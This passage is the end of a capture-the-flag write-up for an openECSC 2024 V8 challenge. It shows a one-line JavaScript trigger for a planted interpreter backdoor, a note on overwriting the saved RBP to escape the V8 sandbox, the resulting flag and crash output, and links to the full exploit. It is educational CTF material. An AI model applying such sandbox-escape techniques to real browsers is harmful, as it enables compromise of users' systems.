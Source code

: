```js

f(1); // Triggers backdoor
```

Apart from adjusting the constant pool index of `69.420` to get the right offset
to overwrite the saved RBP, which again could have moved around since the code
we have now is different, this is all we need. If we hit RBP correctly, we will
trigger a sandbox violation and get the flag:

```none
Sandbox testing mode is enabled. Read from or write to the page starting at 0x3c6d1f531000 (available from JavaScript as `Sandbox.targetPage`) to demonstrate a sandbox bypass.

## V8 sandbox violation detected!

Congrats! Here's your prize:
openECSC{9c4193ea_L00ks_l1ke_my_1gn1t10n_b4ckd00r_b4ckf1r3d!_b69c7b5a}


Received signal 11 SEGV_ACCERR 3c6d1f531000

==== C stack trace ===============================

 [0x63a6a18386b3]
 [0x63a6a1838602]
 [0x7b66dba45320]
 [0x3c6d1f531000]
[end of stack trace]
```


Complete Exploit
----------------

See [`expl.js`](./expl.js) for the JS exploit source code and
[`checker/__main__.py`](checker/__main__.py) for the automated script that
uploads the exploit to the challenge server.


[v8-ignition]: https://v8.dev/docs/ignition
[v8-sandbox-testing]: https://v8.dev/blog/sandbox#testing
[v8-src-1]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;l=333?q=StoreRegisterAtOperandIndex&ss=chromium%2Fchromium%2Fsrc:v8%2F
[v8-src-2]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/objects/trusted-object.h;l=101;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1
[v8-src-3]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/interpreter/interpreter-assembler.cc;drc=652ce146e0992e34bda5dd8e75142a86b4eebcf1;bpv=0;bpt=1;l=1289
[v8-src-4]: https://source.chromium.org/chromium/chromium/src/+/171e9a61e56a06c99d9f65df40f59f340827b6e6:v8/src/sandbox/testing.cc;l=818;drc=82536afb4dfb2305b04da255190b25043e8f2a4d
[pwndbg]: https://github.com/pwndbg/pwndbg


[openecsc-2024]: https://open.ecsc2024.it/